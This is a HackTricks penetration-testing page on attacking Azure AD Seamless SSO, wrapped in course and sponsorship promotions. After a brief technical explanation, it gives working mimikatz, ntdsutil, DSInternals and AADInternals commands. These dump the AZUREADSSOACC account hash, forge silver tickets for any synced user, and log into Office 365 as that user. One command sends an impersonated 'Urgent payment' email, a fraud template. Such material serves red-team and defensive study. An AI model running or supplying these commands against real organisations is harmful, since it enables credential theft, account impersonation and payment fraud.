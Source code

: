 # Seamless SSO

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically **signs users in when they are on their corporate devices** connected to your corporate network. When enabled, **users don't need to type in their passwords to sign in to Azure AD**, and usually, even type in their usernames. This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

Basically Azure AD Seamless SSO **signs users** in when they are **on a on-prem domain joined PC**.

It's supported by both [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) and [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO is using **Kerberos** for authentication. When configured, Azure AD Connect creates a **computer account called AZUREADSSOACC** in on-prem AD. The password of the AZUREADSSOACC account is **sent as plain-text to Azure AD** during the configuration.

The **Kerberos tickets** are **encrypted** using the **NTHash (MD4)** of the password and Azure AD is using the sent password to decrypt the tickets.

**Azure AD** exposes an **endpoint** (https://autologon.microsoftazuread-sso.com) that acc**e**pts Kerberos **tickets**. Domain-joined machine's browser forwards the tickets to this endpoint for SSO.

### On-prem -> cloud

The **password** of the user **AZUREADSSOACC never changes**. Therefore, a domain admin could compromise the **hash of this account**, and then use it to **create silver tickets** to connect to Azure with **any on-prem user synced**:

```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

With the hash you can now **generate silver tickets**:

```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

To use the silver ticket:

1. Launch _Mozilla Firefox_.
2. Go to **`about:config`** and set the [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navigate to any web application that is integrated with our AAD domain. We will use [Office 365](https://portal.office.com/), which is the most commonly used one.
4. Once at the logon screen, fill in the user name, while leaving the password field empty. Then press TAB or ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### And thats all! So should be in! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~Creating Kerberos tickets for cloud-only users~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

If the Active Directory administrators have access to Azure AD Connect, they can **set SID for any cloud-user**. This way Kerberos **tickets** can be **created also for cloud-only users**. The only requirement is that the SID is a proper [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Changing SID of cloud-only admin users is now **blocked by Microsoft**.\
For info check [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
